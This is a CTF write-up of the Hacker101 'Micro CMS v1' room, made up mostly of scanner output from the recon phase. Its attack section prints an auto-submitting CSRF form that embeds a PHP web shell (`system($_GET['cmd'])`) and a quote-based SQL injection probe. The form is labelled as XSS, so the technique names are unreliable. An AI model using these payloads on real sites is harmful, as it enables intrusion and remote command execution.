



# Micro CMS v1

## Background
First time playing on hacker101 ctf training, its hints pretty much trash 
since 1) need to wait for lots of time to show just a single hint 2) you can't choose which flag to show hints 
I have to acutally google myself to find hints online.

In fact I wasted lots of time on doing recon on this Tagged <b>Easy</b> room.

[Link](https://ctf.hacker101.com/ctf/start/2) to this Room 

## Recon

### nuclei
```
┌──(kali㉿kali)-[~/Desktop/room/hacker101/micro-cms]
└─$ nuclei -u https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.2.9

                projectdiscovery.io

[INF] Current nuclei version: v3.2.9 (latest)
[INF] Current nuclei-templates version: v9.9.0 (latest)
[WRN] Scan results upload to cloud is disabled.
[INF] New templates added in latest release: 164
[INF] Templates loaded for current scan: 8199
[INF] Executing 8199 signed templates from projectdiscovery/nuclei-templates
[INF] Targets loaded for current scan: 1
[INF] Templates clustered: 1551 (Reduced 1460 Requests)
[INF] Using Interactsh Server: oast.fun
[dns-saas-service-detection:amazon-aws] [dns] [info] c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com ["production-ctf-levels-58801822.us-west-2.elb.amazonaws.com"]
[caa-fingerprint] [dns] [info] c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com
[tls-version] [ssl] [info] c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com:443 ["tls12"]
[options-method] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/ ["GET, HEAD, OPTIONS"]
[openresty-detect] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/ ["openresty/1.25.3.1"]
[http-missing-security-headers:x-permitted-cross-domain-policies] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:clear-site-data] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:cross-origin-embedder-policy] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:cross-origin-resource-policy] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:content-security-policy] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:x-frame-options] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:x-content-type-options] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:cross-origin-opener-policy] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:strict-transport-security] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:permissions-policy] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[http-missing-security-headers:referrer-policy] [http] [info] https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[INF] Skipped c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com:443 from target list as found unresponsive 30 times
```

### Nmap

```
┌──(kali㉿kali)-[~/Desktop/room/hacker101/micro-cms]
└─$ nmap c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com -p 443 -sCV -vvv 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-07-04 14:38 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
Warning: Hostname c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com resolves to 2 IPs. Using 44.241.79.60.
Initiating Ping Scan at 14:38
Scanning c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com (44.241.79.60) [2 ports]
Completed Ping Scan at 14:38, 0.16s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 14:38
Completed Parallel DNS resolution of 1 host. at 14:38, 0.52s elapsed
DNS resolution of 1 IPs took 0.52s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 14:38
Scanning c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com (44.241.79.60) [1 port]
Discovered open port 443/tcp on 44.241.79.60
Completed Connect Scan at 14:38, 0.17s elapsed (1 total ports)
Initiating Service scan at 14:38
Scanning 1 service on c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com (44.241.79.60)
Completed Service scan at 14:38, 13.12s elapsed (1 service on 1 host)
NSE: Script scanning 44.241.79.60.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 6.57s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 7.36s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
Nmap scan report for c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com (44.241.79.60)
Host is up, received syn-ack (0.16s latency).
Other addresses for c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com (not scanned): 35.155.232.12
rDNS record for 44.241.79.60: ec2-44-241-79-60.us-west-2.compute.amazonaws.com
Scanned at 2024-07-04 14:38:11 EDT for 28s

PORT    STATE SERVICE  REASON  VERSION
443/tcp open  ssl/http syn-ack OpenResty web app server 1.25.3.1
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| ssl-cert: Subject: commonName=*.ctf.hacker101.com
| Subject Alternative Name: DNS:*.ctf.hacker101.com
| Issuer: commonName=Amazon RSA 2048 M02/organizationName=Amazon/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-09T00:00:00
| Not valid after:  2025-02-07T23:59:59
| MD5:   8d61:3121:ad31:3b2a:2d81:2009:d402:7e63
| SHA-1: abcd:c219:e7bc:9bfb:1105:51b4:12b8:0d5a:8251:af34
| -----BEGIN CERTIFICATE-----
|_-----END CERTIFICATE-----
|_http-title: Micro-CMS
|_http-server-header: openresty/1.25.3.1

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:38
Completed NSE at 14:38, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.17 seconds

```

### gobuster

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================

Error: error on running gobuster: unable to connect to http://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/: Get "http://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
```

### sublist3r

```
┌──(kali㉿kali)-[~/…/tool/web/recon/Sublist3r]
└─$ python sublist3r.py -d c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com

                 ____        _     _ _     _   _____
                / ___| _   _| |__ | (_)___| |_|___ / _ __                                    
                \___ \| | | | '_ \| | / __| __| |_ \| '__|                                   
                 ___) | |_| | |_) | | \__ \ |_ ___) | |                                      
                |____/ \__,_|_.__/|_|_|___/\__|____/|_|                                      
                                                                                             
                # Coded By Ahmed Aboul-Ela - @aboul3la                                       
                                                                                             
[-] Enumerating subdomains now for c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com        
[-] Searching now in Baidu..
[-] Searching now in Yahoo..
[-] Searching now in Google..
[-] Searching now in Bing..
[-] Searching now in Ask..
[-] Searching now in Netcraft..
[-] Searching now in DNSdumpster..
[-] Searching now in Virustotal..
[-] Searching now in ThreatCrowd..
[-] Searching now in SSL Certificates..
[-] Searching now in PassiveDNS..
```

### nikto

```
┌──(kali㉿kali)-[~/Desktop/room/hacker101/micro-cms]
└─$ nikto -h https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Multiple IPs found: 35.155.232.12, 44.241.79.60
+ Target IP:          35.155.232.12
+ Target Hostname:    c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /CN=*.ctf.hacker101.com
                   Ciphers:  ECDHE-RSA-AES128-GCM-SHA256
                   Issuer:   /C=US/O=Amazon/CN=Amazon RSA 2048 M02
+ Start Time:         2024-07-04 16:01:05 (GMT-4)
---------------------------------------------------------------------------
+ Server: openresty/1.25.3.1
+ /: IP address found in the 'server' header. The IP is "1.25.3.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The site uses TLS and the Strict-Transport-Security HTTP header is not defined. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Strict-Transport-Security
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ : Server banner changed from 'openresty/1.25.3.1' to 'awselb/2.0'.
+ Server is using a wildcard certificate: *.ctf.hacker101.com. See: https://en.wikipedia.org/wiki/Wildcard_certificate
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, OPTIONS .
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8130 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2024-07-04 18:03:23 (GMT-4) (7338 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### wpscan

```
┌──(kali㉿kali)-[~/Desktop/room/hacker101/micro-cms]
└─$ wpscan --url https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com

Scan Aborted: The remote website is up, but does not seem to be running WordPress.
```

### sstimap

```
┌──(kali㉿kali)-[~/…/tool/web/recon/SSTImap-1.2]
└─$ python sstimap.py -u https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com
    ╔══════╦══════╦═══════╗ ▀█▀                                                              
    ║ ╔════╣ ╔════╩══╗ ╔══╝═╗▀╔═                                                             
    ║ ╚════╣ ╚════╗  ║ ║    ║{║  _ __ ___   __ _ _ __                                        
    ╚════╗ ╠════╗ ║  ║ ║    ║*║ | '_ ` _ \ / _` | '_ \                                       
    ╔════╝ ╠════╝ ║  ║ ║    ║}║ | | | | | | (_| | |_) |                                      
    ╚══════╩══════╝  ╚═╝    ╚╦╝ |_| |_| |_|\__,_| .__/                                       
                             │                  | |                                          
                                                |_|                                          
[*] Version: 1.2.0
[*] Author: @vladko312
[*] Based on Tplmap
[!] LEGAL DISCLAIMER: Usage of SSTImap for attacking targets without prior mutual consent is illegal.
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17
[*] Loaded request body types: 4

[*] Scanning url: https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com
[-] Tested parameters appear to be not injectable.
```

Pretty much nothing useful on recon. The web plugin is the lastest version no way I am finding a new CVE for a EASY room.
Meanwhile I have already found 2 flags while the scans are running

# XSS (Cross-Site Scripting)



First flag was found by using Sample Cross Site Scripting 

Payload shows below:



`
  <body>
    <form action="https://c5e170b6eefb4804564b164fafea6d50.ctf.hacker101.com/page/edit/1" method="POST">
      <input type="hidden" name="title" value="Hacked!" />
      <input type="hidden" name="body" value="This page has been hacked via CSRF!" />
      <input type="hidden" name="file" value="<?php system($_GET['cmd']); ?>" />
      <input type="hidden" name="filename" value="shell.php" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

# SQL Injection
Finally last flag,


`/edit/'`

pretty much this should follow up with IDOR.

# Summary

Overall, this room is pretty much spam as much as different types of payload you could to get all the flags.
